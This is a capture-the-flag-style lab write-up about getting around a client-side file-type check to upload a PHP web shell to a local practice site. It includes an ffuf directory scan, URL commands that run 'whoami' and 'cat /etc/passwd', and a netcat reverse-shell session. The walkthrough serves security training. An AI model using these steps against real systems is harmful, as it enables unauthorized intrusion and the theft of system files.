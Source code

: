 # Insecure File Upload - Basic Bypass

- When I arrived at the website, I discovered a section dedicated to uploading files.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/d5cbe3a2-4aaa-4535-b336-98f8d57ee180)

- During my testing, I attempted to upload a text file, but I encountered a restriction stating that only PNG and JPG files are permitted for uploading.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/d7d868bf-26bc-4d31-ab81-4f077aac26d8)

- Once again, I attempted to upload the file to observe if any requests were sent to the server. However, after I looked it over, I did not see any requests being made during the upload process.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/1c781bad-d29f-4b42-9d63-17504129ac1f)

- I repeated the process of uploading a PNG file and intercepted the corresponding request using Burp Suite for analysis.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/fb4121b3-103b-4290-b836-7fe5d38ac7a5)

- After sending the request to the repeater in Burp Suite, I proceeded to make some minor modifications to the request in an attempt to achieve my goal. I changed the file name extension from "png" to "txt" and removed the image data. Instead, I inserted the text "Hello" in its place.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/e2015bbf-a607-4723-9366-d1477792aeb1)

- Following the successful modification of the request, I refreshed the browser page to verify if the file was indeed uploaded.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/5fa3786f-9a4d-4728-906a-1d4d35f4864a)

- This time I used a PHP cmd to extract the data from the server. For this, I have changed the filename and inserted the PHP command.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/73dc4603-c050-464e-9c5a-72b757c27ca3)


- In my attempt to locate the uploaded file folder, I utilized the tool "ffuf." Through this process, I successfully discovered an "upload" folder located under the "labs" directory.

```bash
└─$ ffuf -u http://localhost/labs/FUZZ -w /usr/share/wordlists/dirb/common.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost/labs/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 56ms]
    * FUZZ: .htaccess

[Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 100ms]
    * FUZZ: .htpasswd

[Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 153ms]
    * FUZZ: .hta

[Status: 403, Size: 274, Words: 20, Lines: 10, Duration: 197ms]
    * FUZZ: 

[Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 0ms]
    * FUZZ: uploads

:: Progress: [4614/4614] :: Job [1/1] :: 46 req/sec :: Duration: [0:00:04] :: Errors: 0 ::
```
- Upon navigating to the discovered "upload" folder under the "labs" directory, I obtained the following output:

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/cae49e62-5127-4e30-9bf7-bfcd84456367)

- To get the desired output, I need to send a command with argument, so I tried with this command in the URL:
- cmd: `http://localhost/labs/uploads/cmd.php?cmd=whoami`

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/d8948a76-112e-414f-809d-54c483d2e1f0)

- I am also able to fetch the passwd file by using command: `http://localhost/labs/uploads/cmd.php?cmd=cat /etc/passwd`

 ![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/a920f6d3-cb03-4599-8d49-03c7cf64ad4b)

- To improve the view I switched to the page source.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/b37a7da5-0231-4852-9e4a-20c0f179375a)

- I am also able to get a reverse shell to my system by using the [pentest-monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) PHP reverse shell script.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/7ff235b7-fb4b-47c1-beb1-64f1d29e80e3)

- After setting the Netcat listening server and navigating to the file I am indeed successful in getting the reverse shell back to my system.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/9f460a22-04a6-4f2d-bbf6-d2b2cfe11ff3)

```bash
└─$ rlwrap nc -nvlp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from (UNKNOWN) [17x.xxx.xx.x] 34670
Linux d19181ed4936 6.3.0-kali1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.3.7-1kali1 (2023-06-29) x86_64 GNU/Linux
 05:22:07 up  1:52,  0 users,  load average: 1.35, 1.32, 0.92
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```

### Task Accomplished!
